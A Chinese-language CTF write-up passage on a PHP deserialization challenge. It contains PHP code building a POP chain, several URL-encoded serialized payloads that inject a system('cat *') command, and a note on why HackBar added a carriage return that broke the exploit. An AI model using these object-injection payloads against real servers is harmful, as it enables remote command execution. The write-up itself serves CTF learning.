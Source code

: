 ```php
$cmd-> f1 -> a = new mix();
$cmd-> f1 -> a -> m1 = new crow();
$cmd-> f1 -> a -> m1 -> v1 = new fin();
$cmd-> f1 -> a -> m1 -> v1 -> f1 = new mix();
$cmd-> f1 -> a -> m1 -> v1 -> f1 ->m1 = '/n cat flag';
echo serialize($cmd);
```

#### 为什么burpsuite能通hackbar不能通?

fiddler能通的payload

`cmd=O%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A4%3A%22what%22%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3BO%3A4%3A%22crow%22%3A2%3A%7Bs%3A2%3A%22v1%22%3BO%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3Bs%3A17%3A%22%0Asystem%28%27cat+%2A%27%29%3B%22%3B%7D%7Ds%3A2%3A%22v2%22%3BN%3B%7D%7D%7D%7D`

hackbar我用这个payload

`cmd=O%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A4%3A%22what%22%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3BO%3A4%3A%22crow%22%3A2%3A%7Bs%3A2%3A%22v1%22%3BO%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3Bs%3A17%3A%22%0Asystem%28%27cat+%2A%27%29%3B%22%3B%7D%7Ds%3A2%3A%22v2%22%3BN%3B%7D%7D%7D%7D`

结果实际请求时候的payload

`cmd=O%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A4%3A%22what%22%3A1%3A%7Bs%3A1%3A%22a%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3BO%3A4%3A%22crow%22%3A2%3A%7Bs%3A2%3A%22v1%22%3BO%3A3%3A%22fin%22%3A1%3A%7Bs%3A2%3A%22f1%22%3BO%3A3%3A%22mix%22%3A1%3A%7Bs%3A2%3A%22m1%22%3Bs%3A17%3A%22%0Asystem%28%27cat+*%27%29%3B%22%3B%7D%7Ds%3A2%3A%22v2%22%3BN%3B%7D%7D%7D%7D`

仔细看可以看出一些细微的差别，system前面变成了%0D%0A，多了个%0D，**%0D 是CR hackbar帮我补了回车，因此打不通，**hackbar使用raw的方式是不会补回车的，也可以成功打通，在群里和师傅们交流后发现，hackbar出错的原理的话应该是windows的换行符是0d0a，linux的换行符是0a，网站运行在linux机器上所以自然是把0a做成换行符，但是hackbar却补了0d0a，导致出错。

#### 我的payload问题出在哪了?

没有url编码，url编码后直接就能出，只需要添加一个urlencode

![image-20220326220630847](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220326220630847.png)

以下是能打通的POC

```php
<?php

class crow
{
    public $v1;
    public $v2;

//    public function __construct()
//    {
//        $this->v1 = new fin();
//    }

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
```